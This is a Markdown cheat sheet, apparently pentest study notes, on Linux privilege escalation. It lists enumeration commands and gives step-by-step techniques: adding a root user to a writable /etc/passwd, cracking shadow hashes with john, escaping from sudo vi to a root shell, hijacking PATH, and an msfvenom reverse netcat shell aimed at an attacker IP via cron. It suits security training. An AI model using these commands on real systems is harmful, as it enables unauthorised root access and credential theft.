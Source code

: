 # 4.1.0 - [LINUX] PrivEsc

[Guide](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

---

## Enumeration

Get information with hostname (prod server, bdd server, etc.)

```bash
$ hostname
```

Get kernal version

```bash
$ uname -a
$ cat /proc/version
```

Show banner

```bash
$ cat /etc/issue
```

Show process

```bash
$ ps -A
$ ps axjf
$ ps aux
```

Env informations

```bash
$ env
```

Sudo 

```bash
$ sudo -l
```

Get groups of current user

```bash
$ id
```

Show history 

```bash
$ history
```

Show openned ports (listen)

```bash
$ netstat -a
$ netstat -l
# Get statistics
$ netstat -s
$ netstat -lntp
$ netstat -ano
```

---

---

## Automatic enumerate

Execute **LinEnum.sh**

[Get LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
[Get LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

---

## Kernel exploitation

Warning : Failed kernel exploit can lead to a system crash.

Methodology : 1. Identify the kernel version / 2. Search and find exploit / 3. Exploit

[Linux Kernel](https://www.linuxkernelcves.com/cves)
[Exploit DB](https://www.exploit-db.com/)

---

## SUID/GUID Files

Find SUID :

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /4000 -type f 2>/dev/null
```

Find GUID :

```bash
$ find / -perm -g=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /2000 -type f 2>/dev/null
```

---

## Capabilites

```bash
$ getcap -r / 2>/dev/null
```

---

## Exploiting a writable /etc/passwd

If /etc/passwd is writable, add an user with this follow line :

Before, we need to generated a password :

```bash
# Example 1
$ openssl passwd <password>
# Example 2
$ openssl passwd -1 -salt <salt> <password>
```

```bash
<user>:<salty_password>:0:0::/root:/bin/bash
```

---

## Exploitins a readable /etc/shadow

Save the root user's hash to a file to crack it.

```bash
john --wordlist=/usr/share/wordlist/rockyou.txt /tmp/file
```

---

## Exploiting a writable /etc/shadow

```bash
# Generat new password hashed
$ mkpasswd -m sha-512 <password>
```

---

## Use binary sudo (like sudo vi)

List what commands are you able to execute as a super user (example below with vi) :

```bash
$ sudo -l
[...]
(root) NOPASSWD: /usr/bin/vi
```

You can execute vi like this :

```bash
$ sudo /usr/bin/vi
```

Then, run this follow command :

```bash
!/bin/bash
```

---

## Show crontab

Execute LinEnum.sh or enumerate crontab :

```bash
$ ls -l /etc/cron*
```

If you a crontable file execute by higher user you can modify then with reverse shell payload for example :

Find a payload on GTFOBINS or you can "manually" create this :

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=<attacker_ip> lport=<listening_port> R
```

---

## PATH Variable

Overwrite the PATH variable

If we find a script run as higher privileges user but there we cant modify. You can see if this script run a "classic" command like ls.

If there is, write a new file with the name of this command :

```bash
echo "/bin/bash > /tmp/ls
```

And export the PATH variable of binaries :

```bash
export PATH=/tmp:$PATH
```

Then execute the initial script.

---

## Service exploits

When mysql run as root and not have password assigned. Check the User Defined Functions (UDFs).

https://www.exploit-db.com/exploits/1518

---


## Ressources

https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html

https://payatu.com/guide-linux-privilege-escalation

